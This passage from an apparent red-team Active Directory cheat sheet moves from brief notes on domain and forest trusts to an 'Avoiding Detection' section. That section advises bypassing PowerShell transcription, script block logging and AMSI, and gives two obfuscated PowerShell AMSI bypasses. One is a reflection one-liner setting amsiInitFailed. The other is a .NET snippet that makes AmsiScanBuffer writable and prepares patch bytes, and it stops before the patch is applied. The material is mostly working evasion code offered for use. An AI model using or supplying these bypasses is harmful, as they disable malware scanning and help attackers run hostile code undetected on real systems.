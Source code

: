 - created automatically between new domain and existing domain
    - e.g. [PleaseFollow.0xd4y.com](http://PleaseFollow.0xd4y.com) is a child of 0xd4y.com
- always two-way transitive
- can be found with `Get-ADTrust -Filter *`

### Forest Trusts

- established between root domains of forests
- can be one-way, two-way, transitive, or nontransitive
- needs to be manually created (forests trusts do not exist by default)


- can be found with `Get-ADForest`

# Avoiding Detection

- ensure that you bypass system-wide transcription, script block logging, and then AMSI in that order to minimize IOCs
    - can be bypassed with [https://github.com/OmerYa/Invisi-Shell](https://github.com/OmerYa/Invisi-Shell)

## PowerShell AMSI Bypass

One-liner to bypass PowerShell AMSI `This script contains malicious content` block

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

## .NET AMSI Bypass

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
```